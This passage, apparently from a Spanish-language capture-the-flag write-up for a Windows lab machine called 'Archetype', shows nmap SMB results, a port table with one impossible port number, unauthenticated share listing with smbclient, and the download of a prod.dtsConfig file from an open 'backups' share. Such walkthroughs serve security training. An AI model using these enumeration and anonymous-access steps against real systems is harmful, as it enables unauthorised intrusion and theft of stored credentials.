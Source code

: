 ```shell
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-12T15:12:38-07:00
| smb2-time: 
|   date: 2024-03-12T22:12:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

| Puerto | Servicio     | Versión                                         |
| ------ | ------------ | ----------------------------------------------- |
| 135    | msrpc        | Microsoft Windows RPC                           |
| 139    | netbios-ssn  | Microsoft Windows netbios-ssn                   |
| 445    | microsoft-ds | Windows Server 2019 Standard 17763 microsoft-ds |
| 47001  | winrm        | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)         |
| 49664  | unknown      | Microsoft Windows RPC                           |
| 49665  | unknown      | Microsoft Windows RPC                           |
| 49666  | unknown      | Microsoft Windows RPC                           |
| 496667 | unknown      | Microsoft Windows RPC                           |
| 49668  | unknown      | Microsoft Windows RPC                           |
| 49669  | unknown      | Microsoft Windows RPC                           |

🗹 Listar recursos compartidos mediante el servicio SMB sin proporcionar usuario ni contraseña:

```shell
smbclient -L //10.129.214.33
Password for [WORKGROUP\n0m3l4c000nt35]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

🗹 Acceder al recurso compartido `backups`, descargarlo y abrirlo:

```shell
smbclient //10.129.214.33/backups
Password for [WORKGROUP\n0m3l4c000nt35]:
Try "help" to get a list of possible commands.
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \> exit

❯ cat prod.dtsConfig

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
```